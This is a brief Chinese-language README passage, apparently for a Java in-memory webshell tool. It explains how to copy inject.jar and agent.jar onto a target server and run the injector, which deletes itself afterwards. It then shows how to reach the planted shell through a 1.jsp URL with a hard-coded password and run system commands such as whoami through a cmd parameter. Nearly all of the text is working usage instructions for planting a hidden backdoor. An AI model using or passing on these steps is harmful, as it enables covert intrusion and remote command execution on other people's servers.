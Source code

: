 将release中的inject.jar agent.jar复制目标服务器。

运行inject.jar:

(测试时注意备份，会删除自身和agent.jar)

    java -jar inject.jar 123

连接内存马：

    http://ip:port/1.jsp?pass_the_world=123&model=chopper

执行命令：

```
http://ip:port/1.jsp?pass_the_world=123&model=exec&cmd=whoami
```

